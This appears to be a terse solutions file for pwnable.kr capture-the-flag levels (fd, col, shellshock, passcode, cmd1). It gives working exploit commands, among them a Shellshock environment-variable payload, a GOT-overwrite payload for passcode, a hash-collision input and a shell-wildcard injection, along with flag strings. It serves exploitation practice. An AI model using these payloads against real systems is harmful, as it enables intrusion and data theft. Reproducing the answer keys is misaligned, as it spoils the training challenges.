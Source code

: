 # Pwnable.kr
### fd
./fd `python -c "print 0x1234+1"`
LETMEWIN
mommy! I think I know what a file descriptor is!!

### col

gdb col

col in gdb command:
disassemble check_password
b *0x080484bb
r
r AAAABBBBCCCCDDDDEEEE
info register
c
info register

python 
hex(0x21DD09EC  - (0x01010101 * 4))
0x1dd905e8

./col `python -c "print '\x01\x01\x01\x01'*4+'\xe8\x05\xd9\x1d'"`

daddy! I just managed to create a hash collision :)

### shellshock
env x='() { return;}; /bin/cat flag' ./shellshock }'' }'

### passcode
找到兩個scanf在stack的offset

(ebp – 0x10) – (ebp – 0x70) = 0x60 = 96

第一個scanf參數位置0xbffff3c8
第二個scanf參數位置0xbffff428

把剛剛取得的printf或fflush GOT位置寫入(%s)
再把system("/bin/cat flag")位置寫入(%d)

0x80485E3 -> 134514147
最後送出Payload是
python -c "print 'A'*96+'\x00\xa0\x04\x08'+'134514147\n'" | ./passcode

### cmd1
./cmd1 "/bin/cat f*"
